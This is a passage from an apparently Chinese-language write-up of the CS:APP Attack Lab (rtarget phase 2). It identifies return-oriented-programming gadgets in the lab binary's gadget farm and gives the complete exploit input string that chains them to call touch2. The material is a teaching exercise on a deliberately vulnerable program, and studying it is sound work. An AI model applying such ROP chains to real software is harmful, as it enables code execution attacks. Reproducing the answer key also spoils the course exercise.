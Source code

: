       ```cpp
      00000000004019a7 <addval_219>:
        4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
        4019ad: c3                    retq  

      00000000004019a0 <addval_273>:
        4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
        4019a6: c3                    retq
      ```

    - 注意到函数`addval_219`中存在字节序列`58 90 c3`。其中`58`是`popq %rax`的机器表示，`90`是`nop`的机器表示，`c3`是`ret`的机器表示。这样的一小段字节序列可以用来将数据从栈上弹到寄存器`%rax`中。

      ```cpp
      4019ab: 58                    popq %rax
      4019ac: 90                    nop
      4019ad: c3                    retq
      ```

    - 同时，函数`addval_273`中存在字节序列`48 89 c7 c3`。其中`48 89 c7`就是`movq %rax, %rdi`的机器表示，`c3`是`ret`的机器表示。所以我们可以利用这个gadget将`%rax`中的数据拷贝到`%rdi`中

      ```cpp
      4019a2: 48 89 c7              movq %rax, %rdi
      4019a5: c3                    retq
      ```

    - 上述的两条`popq rax`与`movq %rax, %rdi` 之间的配合，间接构成了一条`popq %rdi`指令，这样我们就可以设置寄存器`%rdi`，完成目的。实际效果如下：
      ![Wrong](img/csapp-lab-writeup/rtarget_2_1.png)

  - 综上所述，我们需要完成
    - 栈溢出跳转至`popq %rax`
    - 跳转至`movq %rax, %rdi`
    - 跳转至`touch2`函数（地址为`0x4017ec`）

    最终输入的数据如下

      ```text
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      31 31 31 31 31 31 31 31
      ab 19 40 00 00 00 00 00
      fa 97 b9 59 00 00 00 00
      a2 19 40 00 00 00 00 00
      ec 17 40 00 00 00 00 00
      ```
